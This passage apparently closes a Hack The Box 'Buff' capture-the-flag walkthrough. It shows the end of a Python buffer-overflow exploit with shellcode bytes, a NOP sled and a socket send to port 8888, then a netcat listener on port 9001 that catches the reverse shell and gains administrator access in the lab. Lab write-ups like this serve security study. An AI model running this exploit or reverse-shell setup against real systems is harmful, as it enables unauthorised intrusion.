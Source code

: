 ``` python
payload += b"\xc4\x09\xee\x1e\xd3\x74\x30\x94\xd0\x89\xff\x5d\x9c"
payload += b"\x99\x68\xae\xeb\xc3\x3f\xb1\xc1\x6b\xa3\x20\x8e\x6b"
payload += b"\xaa\x58\x19\x3c\xfb\xaf\x50\xa8\x11\x89\xca\xce\xeb"
payload += b"\x4f\x34\x4a\x30\xac\xbb\x53\xb5\x88\x9f\x43\x03\x10"
payload += b"\xa4\x37\xdb\x47\x72\xe1\x9d\x31\x34\x5b\x74\xed\x9e"
payload += b"\x0b\x01\xdd\x20\x4d\x0e\x08\xd7\xb1\xbf\xe5\xae\xce"
payload += b"\x70\x62\x27\xb7\x6c\x12\xc8\x62\x35\x32\x2b\xa6\x40"
payload += b"\xdb\xf2\x23\xe9\x86\x04\x9e\x2e\xbf\x86\x2a\xcf\x44"
payload += b"\x96\x5f\xca\x01\x10\x8c\xa6\x1a\xf5\xb2\x15\x1a\xdc"


overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))	

buf = padding1 + EIP + NOPS + payload + overrun 

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)
```

Save your script in your working directory, naming it `cm-bo.py`.

We will now need to start a Netcat listener on port 9001 to catch the reverse shell request when we run our script. On your attacking machine start the listener using the following command.

``` bash
nc -lvnp 9001
```

And now from your working directory, run the script using the following command.

``` bash
python cm-bo-py
```

Success! When the script is run, the request is sent locally to our attacking machine, chisel then sends it through our established tunnel and then it is received by the target on port 8888. This results in a successful buffer overflow and the payload it executed, requesting a reverse shell back to our attacking machine on port 9001. We now have access to the local administrator account and the `root.txt`.

![](/assets/images/htb-buff/12_buff_admin_flag.png)
